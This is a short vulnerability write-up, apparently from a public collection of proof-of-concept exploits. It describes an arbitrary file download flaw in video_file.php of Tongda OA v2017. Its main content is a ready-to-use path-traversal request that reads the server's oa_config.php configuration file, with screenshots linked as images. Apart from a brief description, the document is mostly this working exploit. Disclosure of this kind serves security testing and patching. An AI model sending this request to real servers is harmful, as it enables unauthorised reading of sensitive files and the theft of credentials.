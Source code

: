 # Tongda OA v2017 video_file.php any file download vulnerability

## Vulnerability Description

The Tongda OA v2017 video_file.php file has arbitrary file download vulnerability, and the attacker can read the server sensitive files through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA v2017</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657609448877-d05e2d6d-6c83-456d-a088-ee09cea92c30-20220712150651348.png)

Verify POC

```php
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php	
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657609468826-7eec4875-7f16-4b37-a13d-2a6e73d2f1ce.png)